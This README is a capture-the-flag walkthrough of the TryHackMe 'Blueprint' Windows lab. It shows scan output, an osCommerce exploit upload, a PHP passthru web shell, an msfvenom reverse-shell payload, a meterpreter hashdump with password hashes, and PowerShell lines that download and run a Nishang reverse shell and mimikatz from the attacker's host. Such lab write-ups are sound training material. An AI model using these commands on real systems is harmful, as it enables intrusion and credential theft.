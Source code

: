 # blueprint-walkthrough
This is a CTF walkthrough of the machine blueprint on THM

export IP=10.10.51.155
export myIP=10.13.24.71

**ENUMERATION**

Let's kick things off with a fast nmap scan to get a lay of the land.

nmap -F $IP

Nmap scan report for 10.10.85.154
Host is up (0.33s latency).
Not shown: 90 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds

Now we'll do a follow-up scan to get more details about open ports, services, and software versions.

nmap -p 80,135,443,3306,8080,49152,49153,49154 -sC -sV -A -T4 $IP

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 23:20 EDT
Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.65% done; ETC: 23:21 (0:00:00 remaining)
Nmap scan report for 10.10.85.154
Host is up (0.25s latency).

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc    Microsoft Windows RPC
443/tcp   open  ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
3306/tcp  open  mysql    MariaDB (unauthorized)
8080/tcp  open  http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
|_http-title: Index of /
49152/tcp open  msrpc    Microsoft Windows RPC
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 027f2be5a1cf (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.26 seconds

Next, let's do a bit of directory busting with gobuster and dirb. We discovered a /catalog/install directory that we can use to install the database and create an admin user.

'oscommerce-2.3.4/catalog/install'

Now we can upload a simple passthrough to allow in-browser command execution. 
**
EXPLOITATION**

Next. let's create a shell.php file with the following contents for our passthru shell:
'<?php passthru($_GET['cmd']); ?>'

And we can upload it using the exploit from searchsploit:
'python 43191.py -u http://10.10.51.155:8080/oscommerce-2.3.4 --auth=admin:admin -f shell.php'

**PROOF OF CONCEPT**

We can test our php passthru shell a simple command like 'whoami'.

**Using Metasploit to convert RCE to a fully interactive shell**

First let's create a payload.

'msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.24.71 LPORT=7777 -f exe > shell.exe'

'msfconsole'

Now we can let it rip and catch the shell with the web_delivery module.

And BOOM! We have a meterpreter session on our target. We can issue a 'hashdump' command to grab all the user hashes.

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter >

**Using Crackstation to quickly crack our hash**
googleplus

**ROOT FLAG**
root.txt
THM{ae--------REDACTED-----------ee}


**OPTIONAL ALTERNATIVE METHOD TO CONVERT TO A SHELL**

Nishang Powershell:
1. download Invoke-PowerShellTcp.ps1

2. modify the script to add the command to the end of the script

'Invoke-PowerShellTcp -Reverse -IPAddress 10.13.24.71 -Port 80'

3. host an http server on port 80

4. Download the file to the target machine and run it:

'powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/ips88.ps1')'

Now that we have a shell -let's grab the hashed NTLM for user Lab with mimikatz!

download it to my attacker machine and serve it up using python

powershell iex(new-object net.webclient).downloadstring('http://10.13.24.71:8000/mimikatz.exe')


